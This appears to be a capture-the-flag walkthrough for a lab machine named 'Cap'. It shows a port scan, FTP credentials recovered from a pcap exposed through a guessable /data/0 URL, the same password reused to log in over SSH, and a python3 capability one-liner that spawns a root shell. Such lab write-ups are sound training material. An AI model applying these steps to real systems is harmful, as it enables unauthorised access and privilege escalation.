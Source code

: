 ![CAP](banner.png)

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    gunicorn
```
## User
Let's have a look at the website first. We can run different tools, we can see ipconfig, netstat and we can capture pcap files for five seconds and download them afterwards. A lot to look at but there wasn't any command injection or anything similar possible.

However we noticed, that after we captured our pcap file we get redirected to /data/1 to download it. So what's /data/0 ?

![URL](url.png)

Analyzing the 0.pcap file we find something interesting:

![PCAP](pcap.png)

Sweet we got credentials for FTP, maybe they work for ssh aswell?
```
ssh nathan@10.129.151.106 with password: Buck3tH4TF0RM3!
```
They do.

## Root
First thing we always do is running [linpeas.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) with -a parameter in a ctf environment.
Linpeas finds something interesting:

![linpeas](linpeas.png)

A fast duckduckgo research brings us here: https://gtfobins.github.io/gtfobins/python/#capabilities

![cap.png](cap.png)

Let's try that.

```bash
python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
# whoami
root
```